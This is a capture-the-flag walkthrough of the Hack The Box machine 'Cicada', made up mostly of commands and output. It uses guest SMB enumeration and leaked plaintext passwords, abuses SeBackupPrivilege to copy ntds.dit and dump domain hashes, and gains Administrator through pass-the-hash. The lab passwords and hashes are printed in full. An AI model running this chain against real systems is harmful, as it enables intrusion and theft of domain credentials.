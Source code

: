 ```yaml
---
title: Cicada
description: 'Ldap search for users and smb enum. User has SeBackupPrivilege and SeRestorePrivilege to backup the ntds.dit and system hive'
pubDate: 2024-10-16
category: 'hackthebox'
tags: ['ldapsearch', 'rid-brute', 'clock skew', 'secretsdump']
image: 'https://labs.hackthebox.com/storage/avatars/79616a32a057e5e672dadb51bb96dd04.png'
---
```


Basic LDAP enum

```bash
ldapsearch -x -H ldap://cicada.htb -s base namingcontexts
...[snip]...
namingcontexts: DC=cicada,DC=htb
...[snip]...
```
```bash
ldapsearch -H ldap://cicada.htb/ -x -s base -b '' "(objectClass=*)" "*" +
...[snip]...
dnsHostName: CICADA-DC.cicada.htb
...[snip]...
```

We can enumerate users by giving a valid user without a pass

```bash
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
...[snip]...
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

We can list shares with the 'guest' user without a pass:

```bash
netexec smb 10.10.11.35 -u 'guest' -p '' --shares
...[snip]...
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share
```

On the HR drive we find a text file:

```bash
smbclient //cicada.htb/HR
Password for [WORKGROUP\ex-it]:
...[snip]...
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
...[snip]...
smb: \> get "Notice from HR.txt"
```

It contains a password for new users: `Cicada$M6Corpb*@Lp#nZp!8`
The user 'michael.wrightson' seem to use this password:

```bash
netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

We don't have any other shares to look at with this user/pass combination, but we can get more data with enum4linux-ng since we have valid credentials.

```bash
enum4linux-ng cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -A
NUM4LINUX - next generation (v1.3.4)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... cicada.htb
[*] Username ......... 'michael.wrightson'
[*] Random Username .. 'buxrmfwv'
[*] Password ......... 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Timeout .......... 5 second(s)
...[snip]...
'1108':
  username: david.orelious
  name: (null)
  acb: '0x00000210'
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3
...[snip]...
```

This user has access to the DEV share:

```bash
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
...[snip]...
SMB         10.10.11.35     445    CICADA-DC        DEV             READ
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
...[snip]...
```

On the DEV share there is a script called `Backup_script.ps1`.

```bash
smbclient //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
...[snip]...
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024
```

## USER

This script has the password for the user 'emily.oscars':

```powershell
...[snip]...
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
...[snip]...
```

This user has READ and WRITE access to C$:

```bash
netexec smb 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares
...[snip]...
SMB         10.10.11.35     445    CICADA-DC        C$              READ,WRITE      Default share
...[snip]...
```

and can remote login:

```bash
netexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

Logging in:

```bash
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

## ROOT

Once we have remote access as user 'emily.oscars' we see we have backup and restore privileges.

```bash
*Evil-WinRM* PS C:\> whoami /all
...[snip]...
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
...[snip]...
```

We need to set a few things in order to create a backup.
So we upload `raj.dsh` to the machine:

```bash
cat raj.dsh
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

The file should be in 'dos' format:

```bash
unix2dos raj.dsh
```

On the target:
```bash
*Evil-WinRM* PS C:\temp\Temp> upload raj.dsh
*Evil-WinRM* PS C:\temp\Temp> diskshadow /s raj.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  10/16/2024 3:44:26 PM
...[snip]...
```

Copy the `ntds.dit` file:
```bash
*Evil-WinRM* PS C:\temp\Temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Wednesday, October 16, 2024 3:44:38 PM
   Source : z:\windows\ntds\
     Dest : C:\temp\Temp\

    Files : ntds.dit
...[snip]...
```

Copy of `hklm\system`:
```bash
reg save hklm\system c:\temp\Temp\system
```

Now we can download both files to our machine:
```bash
*Evil-WinRM* PS C:\temp\Temp> download ntds.dit
Info: Downloading C:\temp\Temp\ntds.dit to ntds.dit

Info: Download successful!

*Evil-WinRM* PS C:\temp\Temp> download system

Info: Downloading C:\temp\Temp\system to system

Info: Download successful!
```

On our machine we can dump the hashes:

```bash
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
...[snip]...
```

And we can login with the Administrators hash:

```bash
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```


## ADDITIONAL STUFF

Getting the TGT and fixing the clock skew:

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.10.11.35
Wed Oct 16 23:37:37 CEST 2024

impacket-getTGT cicada.htb/michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in michael.wrightson.ccache

sudo timedatectl set-ntp on
```

```bash
certipy-ad find -k -no-pass -ns 10.10.11.35 -debug -dc-ip CICADA-DC.cicada.htb
```

